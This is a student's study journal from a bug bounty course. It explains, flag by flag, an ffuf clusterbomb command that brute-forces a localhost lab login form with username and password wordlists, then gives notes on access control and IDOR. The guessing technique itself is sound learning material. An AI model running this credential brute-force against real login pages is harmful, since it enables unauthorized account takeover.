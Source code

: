 ## Journal
Last night when doing the first challenge problem for the PJWT certification course Practical Bug Bounty I got very close to solving it, but no dice. the methods I used were right but I did not get the solution due to the password list I used and not looking more at the changes is size of response. I tried using Burp but the limits community had was a bit painful for my taste and I wanted to go big. I wanted to see if I could get multiple creds by using the biggest username list and the top 4 passwords. Because I could not justify spending $500 on Burp Suite right now I went with Fuff.

Fuff command from last night

```bash
ffuf -request tmp.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Passwords/pass5.txt:FUZZPASSWORD -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSERNAME -fs 3256
```

lets break down the top request into chunks to better retain and understand what it does

### Using a premade request

```bash
ffuf -request tmp.txt
```

The above is stating that we want to use a request that is defined in our tmp.txt file. An example of out tmp.txt file is below.

```
POST /labs/a0x03.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://localhost
Connection: close
Referer: http://localhost/labs/a0x03.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

username=FUZZUSERNAME&password=FUZZPASSWORD
```

I got the above file by using burp suit to proxy the request first
### Request Protocol

```bash
ffuf -request tmp.txt -request-proto http
```

the addition in the above statement is telling us to use the http protocol when running.

### Mode 

```bash
ffuf -request tmp.txt -request-proto http -mode clusterbomb
```

The addition of "-mode clusterbomb" is letting us choose to run every password with every username. There are four modes as I am currently aware of but right now let us just focus on Cluster Bomb since that was the one used.

"Cluster Bomb lets us use multiple payload sets. There is a different payload set for each defined position. The attack iterates through each payload set in turn, so that all permutations of payload combinations are tested."
- Burp suite 

Essentially with our request it is letting us go through each username and password combination to see if we get a pop.

### Variables

```bash
ffuf -request tmp.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Passwords/pass5.txt:FUZZPASSWORD -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSERNAME
```

With the addition of the "-w" tag we are telling Fuff that we want to use the wordlist in the path. the addition of ":FUZZPASSWORD" and ":FUZZUSERNAME" are telling Fuff that we want to use FUZZPASSWORD and FUZZUSERNAME as the variables inside of tmp.txt and we want them to be the variables to the lists that they are attached too by the colon *hehe*

### Filter

```bash
ffuf -request tmp.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Passwords/pass5.txt:FUZZPASSWORD -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSERNAME -fs 3256
```

Now that we are back to our full command that ends with "-fs 3256" the "-fs" just stands for filter size and we are filtering by a common return size of 3256 to see what returns have a different size. 

***LISTEN***
When I was doing the demo I tried filtering by other methods then return size and got no results. I think this is what tripped me up. Just sort by size
## Raw Notes

- Todays learning started with Intro to Authorization from Practical Bug Bounty
- There are a few access controls we should be aware of
	- Vertical access control
		- Restricts certain functionality to certain user
			- customer on an ecommerce site restricted from Admin privileges
	- Horizontal Controls
		- Restricts access to resources for a user
			- Can update their own account but not another user
	- Context Dependent
		- Allows or restricts users based on a current state
			- Such as checking out without a credit card
	- IDOR
		- Insecure Direct Object Reference
		- Common in API driven applications
		- Broken Object Level Authorization (BOLA)
			- When working with API's essentially the same thing
		- When doing Bug Bounties 
			- It is recommended to create two user accounts  
				- Whenever you access user a try to substitute using user b's id or username.
				- The reason you do this is to make sure you don't affect real users or see their information
	- API
		- Play around with API just to remember API's more
	- 


--- 
[[Fuff Commands]] [[Bug Bounty]] [[PJWT]] 
#blog Deep Dive into Fuff
#blog The 4 modes of brute forcing


